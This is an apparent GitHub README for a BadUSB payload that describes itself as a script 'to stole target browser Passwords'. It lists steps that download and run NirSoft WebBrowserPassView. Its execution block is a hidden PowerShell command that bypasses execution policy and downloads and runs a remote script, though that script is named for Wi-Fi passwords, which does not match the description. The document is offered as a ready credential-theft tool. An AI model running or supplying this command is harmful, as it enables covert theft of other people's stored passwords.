 # Browser Windows Password - BadUSB ✅

A script used to stole target browser Passwords.


**Category**: Exfilarate,Credentials

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to stole target browser Passwords.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Creates a directory named "temp"
* Downloads a file from the specified URL (NirSoft's WebBrowserPassView utility)
* Runs the WebBrowserPassView.exe program

Execution
```powershell
powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glipper_Scripts/main/Windows/Credentials/WWifiPasswords/W-Wifi-Passwords.ps1').Content"
```

